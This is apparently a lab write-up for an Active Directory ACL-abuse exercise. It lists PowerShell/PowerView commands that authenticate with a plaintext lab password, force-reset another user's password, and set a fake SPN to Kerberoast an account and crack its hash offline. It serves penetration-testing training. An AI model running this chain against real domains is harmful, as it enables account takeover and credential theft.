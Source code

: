 # Content

- [Content](#content)
  - [Question 1](#question-1)
    - [The way to hack](#the-way-to-hack)
    - [Answer](#answer)
  
## Question 1

### The way to hack

- We must authenticate as `wley` and force change the password of the user `damundsen`. We can start by opening a PowerShell console and authenticating as the `wley` user. Otherwise, we could skip this step if we were already running as this user. To do this, we can create a [PSCredential object](https://docs.microsoft.com/en-us/dotnet/api/system.management.automation.pscredential?view=powershellsdk-7.0.0).
- Payload:
  - `$SecPassword = ConvertTo-SecureString '<`transporter@4`>' -AsPlainText -Force`
  - `$Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\wley', $SecPassword)`
  ![Picture](../../Image/An%20ACE%20in%20the%20Hole/15.png)
- Next, we must create a SecureString object which represents the password we want to set for the target user `damundsen`.
- Payload:
  - `$damundsenPassword = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force`
  ![Picture](../../Image/An%20ACE%20in%20the%20Hole/16.png)
- Now we change the password of user damundsen.
- Payload:
- `Set-DomainUserPassword -Identity damundsen -AccountPassword $damundsenPassword -Credential $Cred -Verbose`
  ![Picture](../../Image/An%20ACE%20in%20the%20Hole/17.png)
- Now we create s SecureString object using damundsen.
- Payload:
  - `$SecPassword = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force`
  - `$Cred2 = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\damundsen', $SecPassword)`
  ![Picture](../../Image/An%20ACE%20in%20the%20Hole/18.png)
- We confirm that damundsen was added to the group.
- Payload:
  - `Get-DomainGroupMember -Identity "Help Desk Level 1" | Select MemberName`
  ![Picture](../../Image/An%20ACE%20in%20the%20Hole/19.png)
- We create a fake SPN.
- Payload:
  - `Set-DomainObject -Credential $Cred2 -Identity adunn -SET @{serviceprincipalname='notahacker/LEGIT'} -Verbose`
  ![Picture](../../Image/An%20ACE%20in%20the%20Hole/20.png)
- Finally, I use Kerberoast the user using any number of methods and obtain the hash for offline cracking.
  ![Picture](../../Image/An%20ACE%20in%20the%20Hole/21.png)
  ![Picture](../../Image/An%20ACE%20in%20the%20Hole/22.png)
- So i copy the hash and come to the terminal in linux to crach the hash.
  ![Picture](../../Image/An%20ACE%20in%20the%20Hole/23.png)
  ![Picture](../../Image/An%20ACE%20in%20the%20Hole/24.png)

### Answer

![Picture](../../Image/An%20ACE%20in%20the%20Hole/25.png)


